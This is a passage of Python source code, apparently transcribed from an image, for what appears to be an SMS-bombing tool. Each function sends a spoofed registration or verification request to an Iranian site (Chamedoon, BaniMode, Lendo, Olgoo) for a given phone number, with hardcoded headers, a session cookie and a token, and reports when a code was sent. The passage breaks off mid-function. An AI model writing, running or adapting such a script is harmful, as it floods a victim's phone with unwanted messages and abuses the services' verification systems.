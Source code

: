     try:
        ok = post(timeout=5, url=chU, headers=chH, json=chJ).json()
        if ok["status"] == 'ok':
            print(f'{g}(Chamedoon) {w}Code Was Sent')
            return True
    except:
        pass
    
def bn(phone):
    bnJ = {
    "phone": '0'+phone.split('+98')[1]
}
    bnU = 'https://mobapi.banimode.com/api/v2/auth/request'
    bnH = {
'Accept': '*/*',
'Accept-Encoding': 'gzip, deflate, br',
'Accept-Language': 'en-US,en;q=0.9',
'Access-Control-Request-Headers': 'content-type,platform',
'Access-Control-Request-Method': 'POST',
'Connection': 'keep-alive',
'Host': 'mobapi.banimode.com',
'Origin': 'https://www.banimode.com',
'Referer': 'https://www.banimode.com/',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36'
    }
    try:
        ok = post(timeout=5, url=bnU, headers=bnH, json=bnJ).json()
        if ok["status"] == 'success':
            print(f'{g}(BaniMode) {w}Code Was Sent')
            return True
    except:
        pass
    
def lendo(phone):
    leD = {'_token': 'mXBVe062llzpXAxD5EzN4b5yqrSuWJMVPl1dFTV6',
'mobile': '0'+phone.split('+98')[1],
'password': 'ibvvb@3#9nc'}
    leU = 'https://lendo.ir/register?'
    leH = {'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
'Accept-Encoding': 'gzip, deflate, br',
'Accept-Language': 'en-US,en;q=0.9',
'Cache-Control': 'max-age=0',
'Connection': 'keep-alive',
'Content-Type': 'application/x-www-form-urlencoded',
'Cookie': 'lendo_session=eyJpdiI6Imh2QXVnS3Q1ejFvQllhSVgzRTZORVE9PSIsInZhbHVlIjoicFE0VzJWc016a3BHXC9CRTE3S21OSXV0XC84U015VTJwdDBRVWZNUDRIUmxmS1gwSDR5NVEwQlhmaUlMdTM2XC9EQyIsIm1hYyI6ImMzMWRhYWE1ODA3MTE1ZGI5ZGIxNTAxNTg5NzBhNWYzNjZjNzk2MDNhYWNlNTU1OTc5ZTYzNjNmYWU5OGZiMWIifQ%3D%3D',
'Host': 'lendo.ir',
'Origin': 'https://lendo.ir',
'Referer': 'https://lendo.ir/register',
'Upgrade-Insecure-Requests': '1',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36'}
    try:
        lendoR = post(timeout=5, url=leU, headers=leH, data=leD).text
        if 'تایید شماره تلفن همراه' in lendoR:
            print(f'{g}(Lendo) {w}Code Was Sent')
            return True
    except:
        pass
def olgoo(phone):
    olD = {'contactInfo[mobile]': '0'+phone.split('+98')[1],
